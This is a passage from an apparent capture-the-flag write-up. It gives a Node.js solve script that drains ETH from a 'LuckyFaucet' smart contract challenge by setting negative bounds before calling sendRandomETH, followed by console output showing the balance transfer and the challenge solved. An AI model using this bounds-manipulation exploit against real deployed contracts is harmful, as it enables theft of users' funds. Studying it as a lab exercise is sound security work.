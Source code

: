 ```javascript
    value => console.log('setBounds: ', value.events)
  ).catch(error => console.error('Error calling setBounds: ', error));
}

async function callSendRandomETH() {
  await LuckyFaucetContract.methods.sendRandomETH().send({
      from: signer.address,
      gas: 1000000,
    }).then(
    value => console.log('sendRandomETH: ', value.events)
  ).catch(error => console.error('Error calling sendRandomETH: ', error));
}

async function exploit() {
  var solved = await callIsSolved()
  await getBounds()
  getBalance(signer.address)
  getBalance(LuckyFaucet_deployedAddress);

  var lower = -2;
  var upper = -1;
  console.log(`Solved: `, solved)
  await callSetBounds(lower, upper)
  await getBounds()
  await callSendRandomETH()

  getBalance(signer.address)
  getBalance(LuckyFaucete_deployedAddress);
}

exploit()
```


```
$ node solve.js
lowerBound:  50000000n
upperBound:  100000000n
Solved:  false
Balance of 0x2e0C1FD6033b0D3d6ef69c3F1776c51bcD0d9715: 5000 ETH
Balance of 0xC6F79C7Daf5943FC196C7d41f1A8F6802Db93D49: 500 ETH
lowerBound:  -2n
upperBound:  -1n

$ node solve.js
lowerBound:  -2n
upperBound:  -1n
Solved:  true
Balance of 0x2e0C1FD6033b0D3d6ef69c3F1776c51bcD0d9715: 5018.446599148709551615 ETH
Balance of 0xC6F79C7Daf5943FC196C7d41f1A8F6802Db93D49: 481.553255926290448385 ETH
lowerBound:  -2n
upperBound:  -1n
```
